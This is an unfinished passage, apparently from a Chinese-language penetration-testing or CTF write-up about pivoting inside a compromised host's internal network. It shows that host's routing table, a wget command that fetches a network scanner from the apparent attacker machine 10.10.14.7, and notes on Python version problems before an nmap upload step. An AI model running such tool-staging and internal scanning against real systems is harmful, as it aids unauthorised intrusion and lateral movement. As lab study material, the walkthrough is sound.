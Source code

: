 ```
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
default         10.99.64.1      0.0.0.0         UG    0      0        0 eth0
10.78.10.0      *               255.255.255.0   U     0      0        0 eth1
10.78.11.0      *               255.255.255.0   U     0      0        0 eth2
10.99.64.0      *               255.255.255.0   U     0      0        0 eth0
10.100.10.0     10.78.10.2      255.255.255.0   UG    0      0        0 eth1
10.100.11.0     10.78.10.2      255.255.255.0   UG    0      0        0 eth1
10.100.12.0     10.78.10.2      255.255.255.0   UG    0      0        0 eth1
10.100.13.0     10.78.10.2      255.255.255.0   UG    0      0        0 eth1
10.100.14.0     10.78.10.2      255.255.255.0   UG    0      0        0 eth1
10.100.15.0     10.78.10.2      255.255.255.0   UG    0      0        0 eth1
10.100.16.0     10.78.10.2      255.255.255.0   UG    0      0        0 eth1
10.100.17.0     10.78.10.2      255.255.255.0   UG    0      0        0 eth1
10.100.18.0     10.78.10.2      255.255.255.0   UG    0      0        0 eth1
10.100.19.0     10.78.10.2      255.255.255.0   UG    0      0        0 eth1
10.100.20.0     10.78.10.2      255.255.255.0   UG    0      0        0 eth1
10.120.10.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.11.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.12.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.13.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.14.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.15.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.16.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.17.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.18.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.19.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.20.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
```
#### 内网python扫描
https://raw.githubusercontent.com/AnthraX1/InsightScan/master/scanner.py

wget http://10.10.14.7/scanner.py

/usr/bin/python3.5 scanner.py -h

python2.7和python3.5不兼容，目标主机只有python3.5,导致该py脚本无法运行。

#### 上传nmap
![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-12/8.PNG)

待续
